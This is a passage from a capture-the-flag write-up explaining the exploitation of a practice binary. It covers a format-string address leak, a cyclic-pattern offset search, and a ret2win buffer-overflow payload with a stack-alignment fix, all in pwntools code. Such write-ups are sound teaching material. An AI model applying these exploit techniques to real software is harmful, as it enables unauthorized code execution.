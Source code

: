 Running the script again confirmed that the 45th pointer would always be the address of `main`. Now we have a memory leak, so let's calculate some offsets.

```python
io.sendline("%45$p")
main_addr = int(io.recvuntil(" enter your magic spell:", drop=True)[-12:].decode(), 16)
print(f"Address of main : {hex(main_addr)}")
base_addr = main_addr - main_offset
print(f"Executable base address : {hex(base_addr)}")
win_addr = base_addr+e.symbols['WINgardium_leviosa']
print(f"WINGardium Leviosa : {hex(win_addr)}")
```

## Stack Smashing

Now that we know the address of `WINGardium_leviosa` all we need to do is overwrite the return address in memory of the main function and return to `WINGardium_leviosa` from `AAAAAAAA`. First though, we need to know the offset from the start of the input buffer and the return address.

```python
g = cyclic_gen()
cyclic_payload = g.get(0xff+1) #0xff is the buffer size
pause()
io.sendline(cyclic_payload)
io.interactive()
```

Running this script and examining memory with lldb, we discover that the offset between the start of buffer and the return address is 264 bytes.

![offsets](/ctf-writeups/assets/cscg-ctf-intro-pwn-offset.png)

Now that we have our offsets, our memory leak, and we've identified our stack smashing vulnerability we're ready to perform our `ret2win` attack.

One thing to keep in mind is that we need to prepend the word 'Expelliarmus' to our attack; otherwise, the program exits without ever returning, rendering our return attack ineffective. Luckily this program is using the `gets` function which will continue reading past null bytes instead of terminating. This allows to prepend arbitrary content to pass a `strcmp` while still passing a buffer overflow payload.

So, lets craft our payload:

```python
offset = 264
required_text = b"Expelliarmus\x00"
payload = required_text + (264-len(required_text))*b"A" + win_addr.to_bytes(8, 'little')

io.sendline(payload)
io.interactive()
```

Uh-oh! When we run the script locally, we get an error: `exit code -11 (SIGSEGV)`. Looking at the debugger the program throws an error on `MOVAPS`. Taking a look at the first result on Google ([ROP Emporium](https://ropemporium.com/guide.html#Common%20pitfalls), it turns out that in some cases "The 64 bit calling convention requires the stack to be 16-byte aligned." So in order to align the stack we can add one more `ret` instruction to our chain, but how? We know that any section of code in memory can be executed by jumping to it. If we prepend the address of a `ret` instruction to our overflow payload, it will jump to and run the instruction. When we run the instruction for the second time it'll just pop another 8 bytes off the stack into the %rip register. So, let's just add a `ret` instruction to the chain.

